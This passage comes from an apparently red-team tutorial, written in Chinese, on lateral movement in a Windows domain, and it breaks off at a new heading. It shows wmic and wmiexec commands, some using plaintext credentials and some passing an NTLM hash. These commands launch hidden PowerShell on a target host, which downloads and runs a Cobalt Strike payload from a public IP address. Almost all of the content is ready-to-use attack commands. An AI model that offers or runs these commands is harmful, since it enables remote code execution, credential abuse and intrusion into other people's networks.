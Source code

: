 ### 利用powershell.上线

#### 1、使用cs生成powershell脚本

![image-20230402165242652](https://img.gyxnb.top/img/image-20230402165242652.png)

#### 2、wmic进行上线,把ps1放到公网，可以使用python开启http服务提供下载

`python-m http.server 8080`

```wmi
wmic /NODE:192.168.70.16 /user:hack\administrator /password:admin@123 PROCESS call create "powershell.exe -nop -W hidden -c \"IEX((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))\""
```

#### 3、等待片刻上线

**![image-20230402165431251](https://img.gyxnb.top/img/image-20230402165431251.png)**

## Wmiexec工具

wmiexec是-个即有全交互也有半交互的远程命令执行工具，有python版本的pe版本可运用于多种环境，包括webshell环境、rdp环境、socks环境等

```
明文账号：
wmiexec.exe 域名/用户名:密码@目标IP  #哈希传递获得shell
wmiexec.exe 域名/用户名:密码@目标IP "ipconfig" #执行命令

eg:
wmiexec.exe hack/administrator:admin@123@192.168.70.16 "whoami"

wmiexec.exe hack/administrator:admin@123@192.168.70.16 "powershell.exe -nop -W hidden -C IEX ((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))"


哈希传递：
wmiexec.exe -hashes LM Hash:NT Hash 域名/用户名@目标IP #哈希传递获得shell
wmiexec.exe -hashes LM Hash:NT Hash 域名/用户名@目标IP "whoami" #执行命令

eg:
wmiexec.exe -hashes aad3b435b51404eeaad3b435b51404ee:579da618cfbfa85247acf1f800a280a4 administrator@192.168.70.16 "whoami"

wmiexec.exe -hashes aad3b435b51404eeaad3b435b51404ee:579da618cfbfa85247acf1f800a280a4 administrator@192.168.70.16 "powershell.exe -nop -W hidden -C IEX ((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))"
```

### 利用powershell上线

#### 1、使用账号密码登录进行powershell上线
